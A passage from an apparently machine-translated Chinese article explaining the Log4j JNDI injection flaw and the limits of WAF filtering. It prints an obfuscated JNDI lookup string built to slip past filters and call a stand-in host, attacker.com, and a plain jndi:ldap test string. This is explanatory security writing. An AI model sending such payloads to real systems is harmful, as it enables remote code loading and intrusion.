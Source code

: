 ![](img/a4b39006c8a5e7c822694218d947a040.png)

JNDI 的建筑([来源](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)

多亏了 JNDI SPI(服务提供者接口),您可以让 LDAP 服务器提供 Java 类文件，当您请求打印机时，它可以生成一个打印机对象。然而，这个特性允许安装恶意的东西，而不是交付假定的打印机对象。

![](img/38f0d1773409b0b66923565a7b4db436.png)

Java 对象支持([来源](https://docs.oracle.com/javase/tutorial/jndi/overview/event.html))

加密矿工或危险的后门程序(如 Cobalt Strike Beacons)可以使用此功能来利用易受攻击的系统。

> “Cobalt Strike 是一款付费渗透测试产品，允许攻击者在受害机器上部署名为‘Beacon’的代理。”— [马尔佩迪亚](https://malpedia.caad.fkie.fraunhofer.de/details/win.cobalt_strike)

## 过滤并阻止

作为防止攻击易受攻击系统的解决方案，您可能会考虑使用 web 应用程序防火墙(WAF)来过滤、识别和阻止包含危险字符串的请求。

但这种方法的问题是，有许多方法可以逃避它。攻击者可以通过使用正则表达式或编写如下请求进行伪装，以绕过所有过滤器并成功触发攻击:

```
${${**env:ENVNAME:-j**}ndi${**env:ENVNAME:-:**}${**env:ENVNAME:-l**}dap${**env:ENVNAME:-:**}//attacker.com/a}
```

这种做法的另一个缺点是，它可能会阻止 ***无害的*** 用户。

Cloudflare 目前正试图通过阻止浏览器显示可疑用户代理的请求来保护其客户，如下例所示:

当我试图使用[这里提供的抄袭检查器](https://searchenginereports.net/plagiarism-checker)来扫描包含字符串`${jndi:ldap://127.0.0.1:1389/a}`的文本抄袭时，应用程序阻止了我，正如你在下面的截图中看到的:
